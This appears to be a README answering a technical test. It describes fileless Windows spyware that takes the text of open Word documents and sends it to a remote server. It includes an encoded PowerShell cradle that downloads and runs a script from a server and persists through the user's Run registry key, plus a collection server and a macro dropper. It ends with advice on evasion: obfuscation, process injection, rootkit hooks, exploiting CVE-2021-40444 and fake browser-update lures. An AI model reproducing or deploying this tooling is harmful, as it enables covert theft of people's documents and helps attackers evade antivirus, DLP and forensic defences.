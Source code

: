 # Technical Test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.

## Solution

### Persistence

The persistence in the execution of this software is implemented by adding an entry in the registry path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` which is executed each time the user log in.

This payload makes a GET request to the server to load the software into memory and executes it.

```
powershell.exe -NoProfile -Noninteractive -ExecutionPolicy Bypass -WindowStyle Hidden -enc aQBlAHgAIAAoAGkAdwByACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA1ADYALgAxADoAOAAwADgAMAAvAG0AYQBpAG4ALgBwAHMAMQAnACkA
```

![Persistence](./img/persistence.png)

### Fileless

The code developed is 100% fileless as it does not need to write nothing on disk. It is loaded into memory during the login process for a user and all the operations are performed into memory.

#### Dropper

A very basic example of a VisualBasic macro has been added just to simulate a possible first step into the attack vector. This macro executes a powershell instance loading into memory the payload from the remote server and executing it.

### Little privileges as possible

The code does not need any special privilege, all used functionalities can be executed only with user privileges.

### Searches for Word processes and extracts all text written

This is the core of the software and it is continuing monitoring if the process WinWord is running or not through functions `Wait-ProccessStarts` and `Wait-ProccessStops`. If it is not running the software just wait for 5 seconds and make another check. If the process is running the software call to function `Get-OpenWORDDocumentsWords` which get all open Word documents, read the words inside them and make the exfiltration executing the function `Invoke-Request`. This loop is repeated each 30 seconds while the process WinWord is running.

Inside the code there are three global variables for an easy configuration of the parameters.

```
$RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
$ServerURL = "http://192.168.56.1:8080"
$Process = "Winword"
```

### Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![Get Request](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![Post Request](./img/post-request.png)

![Saved file into server](./img/server-file.png)

![Content of the file](./img/open-file.png)

#### Running the server

To execute the server it is only need to execute the following steps:

```
pip install -r requirements.txt
python3 webserver.py
```

### Possible Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks.

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/danielbohannon/Invoke-Obfuscation>.

If more advanced techniques are required, a better approach could be creating the  software as dll file and inject the code into a running process using the Reflective PE Injection <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>. Furthermore, it could be possible to create a hook into Win32 API functions NtQuerySystemInformation acting as a Rootkit hiding processes from the Task Manager and NtCreateUserProcess to launch the exfiltration method when the process WinWord starts.

For increasing the possibilities of a first execution of the software, modern vulnerabilities like Microsoft MSHTML Remote Code Execution can be used <https://github.com/lockedbyte/CVE-2021-40444>. Also, other drop techniques could be useful like creating a WASM application and try to make the user to visit it and executes the code hiding like a browser update.
